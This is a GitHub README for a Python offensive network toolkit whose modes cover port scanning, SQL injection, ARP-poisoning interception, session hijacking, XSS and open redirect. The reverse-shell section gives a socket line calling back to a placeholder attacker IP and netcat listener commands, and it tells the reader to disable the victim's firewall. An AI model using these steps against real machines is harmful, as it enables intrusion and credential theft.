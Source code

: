 # CustomNetworkTool
❗ Do not use it for malicious purposes, it's only for educational purposes.
 Stay in Legal !!!!!

![Ekran görüntüsü 2024-06-17 155733](https://github.com/YusufMarall/CustomNetworkTool/assets/114530242/eb208ca9-b528-49f3-8ac4-adccd54fd553)


## Remarks and Instructions for Use

This tool is designed to perform various network and security tests. Below you can find each mode and instructions for use.

### if(r==1)
####Scanning Port Similar to  Nmap
I wrote a module similar to Nmap, but faster than Nmap because I only scan specific ports. This works like this:

- If one of the specific ports I scan is open, I can use a network analyzer like Wireshark to monitor the traffic coming through that port. For example, when port 8080 (HTTP) is open, if our victim logs into an HTTP site through this port, I can see sensitive information such as his password.

### if(r==2)
#### Showing Website Content and SQL Injection Attempt
1. **Show Website Content**:
   - Shows the content of the website. If we know JavaScript, we can manipulate this content very easily.

2. **SQL Injection Attempt**:
   - Attempts SQL injection by sending our payloads with specific codes to the URL. If there is a database, this attack can be successful.

### if(r==3)
#### Man-in-the-Middle (MitM) Attack
1. **Man-in-the-Middle (MitM) Attack**:
   - ARP (Address Resolution Protocol): Maps a MAC address to an IP address.
   - ARP Poisoning: A cyber attack technique commonly used in local area networks. Using ARP poisoning, it can monitor and modify the communication between two devices without interrupting it. In this case, it can monitor and modify all traffic between the gateway (router) and the target device. For example, by monitoring the traffic between the gateway and the user, an attacker can intercept sensitive information (passwords, credit card information, etc.) sent by the user.

2. **Data Capture**:
   - With ARP poisoning, the attacker can redirect all network traffic of the target device to his own device and analyze this traffic. In this way, the attacker can capture and record all data passing through the target device.

3. **Session Hijacking**:
   - It can hijack sessions by capturing session cookies. This can be used to take over a user's session and gain unauthorized access to the user's accounts.

4. **Modifying Network Traffic**:
   - Can modify data packets between two devices. For example, it can modify web pages, redirect users to fake websites or inject malware into network traffic.

### if(r==4)
Blind sql injection does injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response and learns the database name
### if(r==5)
#### Reverse Shell and Netcat Usage
Reverse shell code creates payload and works like a backdoor. With Netcat, we can attack file uploading, eavesdropping, etc.

*Step 1: Make sure that the `payload.py` file on the victim machine is using the correct IP address and port. Check that your IP address is correct and the port you are listening on is 9998:
```python
s.connect(('YOUR_IP_ADDRESS', 9998)) # Replace YOUR_IP_ADDRESS with the IP address of your own machine
*Step 2: Set the Listening Machine Correctly
Make sure to start listening with netcat on the listening machine. Make sure you are listening using the correct port:
Linux:
nc -lvp 9998
*Step 3: Check Firewall and Firewalls
Firewalls or network firewalls on the listening machine and the victim machine may be blocking the connection. Try temporarily turning off the firewall on both machines:
Linux:
sudo ufw disable
Windows:ping YOUR_IP_ADDRESS
Step 4: Check Network Connectivity
Make sure that the network connection from the victim machine to the listening machine is working. Check the connection by pinging from the victim machine to the listening machine:
Windows:
ping YOUR_IP_ADDRESS
Linux:
ping YOUR_IP_ADDRESS
Step 5: Perform a Simple Connectivity Test with Netcat
Start listening with netcat on the listening machine:
Linux:
nc -lvp 9998
Try to establish a connection using netcat on the victim machine:
Linux:
nc YOUR_IP_ADDRESS 9998.

### if r==6
###xss Cross-site scripting attack
###Open redirect vulnerability:
Explicit redirection vulnerabilities occur when an application insecurely incorporates user-controllable data into a redirection destination.
An attacker can generate a URL within the application that causes a redirection to an arbitrary external domain.
Hint===?redirect={payload}
